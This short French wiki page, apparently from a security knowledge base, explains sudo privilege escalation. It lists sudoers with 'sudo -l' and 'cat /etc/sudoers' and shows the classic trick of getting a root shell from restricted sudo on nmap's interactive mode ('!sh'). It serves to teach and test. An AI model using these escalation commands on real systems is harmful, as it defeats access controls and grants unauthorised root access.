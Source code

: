 ```yaml
---
title: Sudo
permalink: /Sudo/
---
```


# Sudo

Lister les sudoers
------------------

Il est possible de lister les sudoers avec les commandes suivantes:

``` bash
sudo -l
cat /etc/sudoers
```

sudo limité
-----------

Dans certains cas on peut lancer sudo uniquement sur certaines commandes. Il est parfois possible d'utiliser ces commandes pour obtenir un shell root. Par exemple, si on peut lancer nmap avec sudo:

``` bash
sudo nmap --interactive
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```

[Category:Technologies](/Category:Technologies "wikilink")[Category:Linux](/Category:Linux "wikilink")
